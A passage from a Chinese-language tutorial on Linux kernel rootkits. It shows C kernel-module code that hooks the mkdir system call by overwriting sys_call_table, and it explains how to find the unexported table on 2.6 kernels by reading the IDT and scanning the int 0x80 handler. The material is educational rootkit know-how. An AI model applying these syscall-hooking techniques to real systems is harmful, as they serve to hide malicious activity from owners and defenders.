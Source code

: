 但很少有rootkit采用这种方法。  

对于2).b 类型的rootkit， 可参考以下代码  

``` c
#define MODULE
#define __KERNEL__
#include <linux/module.h>
#include <linux/kernel.h>
#include <asm/unistd.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <asm/fcntl.h>
#include <asm/errno.h>
#include <linux/types.h>
#include <linux/dirent.h>
#include <sys/mman.h>
#include <linux/string.h>
#include <linux/fs.h>
#include <linux/malloc.h>
extern void* sys_call_table[];       /*sys_call_table is exported, so we
                                     can access it*/               
int (*orig_mkdir)(const char *path); /*the original systemcall*/
int hacked_mkdir(const char *path)
{
 return 0;                           /*everything is ok, but he new systemcall
                                     does nothing*/
}
int init_module(void)                /*module setup*/
{
 orig_mkdir=sys_call_table[SYS_mkdir];
 sys_call_table[SYS_mkdir]=hacked_mkdir;
 return 0;
}
void cleanup_module(void)            /*module shutdown*/
{
 sys_call_table[SYS_mkdir]=orig_mkdir; /*set mkdir syscall to the origal
                                       one*/
}
```
注意，要对系统调用(sys_call_table)进行替换，却必须要获取该地址后才可以进行替换。但是Linux 2.6版的内核出于安全的考虑没有将系统调用列表基地址的符号sys_call_table导出，但是我们可以采取一些hacking的方式进行获取。  
因为系统调用都是通过0x80中断来进行的，故可以通过查找0x80中断的处理程序来获得sys_call_table的地址。其基本步骤是：  

1. 获取中断描述符表(IDT)的地址(使用C ASM汇编)
2. 从中查找0x80中断(系统调用中断)的服务例程(8*0x80偏移)
3. 搜索该例程的内存空间，
4. 从其中获取sys_call_table(保存所有系统调用例程的入口地址)的地址

有关获取IDT表地址的代码：  

``` c
unsigned long get_addr_idt (void)
        {
         unsigned char idtr[6];
         unsigned long idt;
        __asm__ volatile ("sidt %0": "=m" (idtr));
        idt = *((unsigned long *) &idtr[2]);
        return(idt);
        }
```
获取syscall table地址的方法还有许多，更多可参考 [Linux System Calls Hooking Method Summary](http://www.cnblogs.com/LittleHann/p/3854977.html) 。  

